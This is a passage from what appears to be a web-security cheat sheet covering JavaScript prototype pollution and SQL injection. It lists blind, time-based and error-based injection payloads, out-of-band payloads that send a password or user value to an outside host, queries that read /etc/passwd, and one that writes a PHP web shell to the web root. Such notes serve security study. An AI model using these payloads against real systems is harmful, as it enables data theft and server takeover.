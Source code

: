   ```javascript
  > a = []
  > b = []
  > a["__proto__"]["test"] = "testtest" // a["__proto__"] is array
  > b.test
  < "testtest"
  ```
- Case Study
  - [MITRE](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=prototype+pollution)
  - [HackerOne XSS](https://hackerone.com/reports/986386)
  - [CVE-2019-7609](https://slides.com/securitymb/prototype-pollution-in-kibana)
  - [Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)
  - [Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)

#### SQL Injection
- Type
  > Prevent: Parameterized Query, Prepared Statement

  - Union Based
  - Blind
    - Boolean Based

      ```
      ... id = 1 and length(user()) > 0
      ... id = 1 and length(user()) > 16
      ... id = 1 and ascii(mid(user(),1,1)) > 0
      ... id = 1 and ascii(mid(user(),1,1)) > 80
      ```

    - Time Based
      - sleep

        ```
        ... id = 1 and IF(ascii(mid(user(),1,1))>0, SLEEP(10), 1)
        ... id = 1 and IF(ascii(mid(user(),1,1))>80, SLEEP(10), 1)
        ```

      - query / large calculation data
      - repeat('A', 10000)
  - Error
    - ExtractValue(xml, xpath)

      ```
      SELECT ExtractValue(1, concat(0x0a,version()));
      -----------------------------------------------
      XPATH syntax error:'
      8.0.20'
      ```

    - UpdateXML(xml, xpath, new\_xml)
    - exp(x)
    - MultiLineString(LineString)
    - MultiPolygon(Polygon)
  - Out-of-Band
    | DB              | Payload                                                                 | Comment   |
    |:----------------|:------------------------------------------------------------------------|:----------|
    | MySQL + Windows | `load_file(concat("\\\\", password, ".splitline.tw"))`                  | DNS Query |
    |                 | SMB + DNS query log ([DNSBin](https://github.com/ettic-team/dnsbin))    |           |
    | Oracle          | `url_http.request('http://splitline.tw/' \|\| (SELECT user FROM dual))` |           |
  - Multi Byte SQL Injection
- Read / Write File
  - `SELECT LOAD_FILE('/etc/passwd')` (MySQL)
  - `SELECT pg_read_file('/etc/passwd', <offset>, <length>)` (PostgresSQL)
  - `SELECT "<?php eval($_GET[x]);?>" INTO OUTFILE "/var/www/html/shell.php"` (MySQL)
- Common Function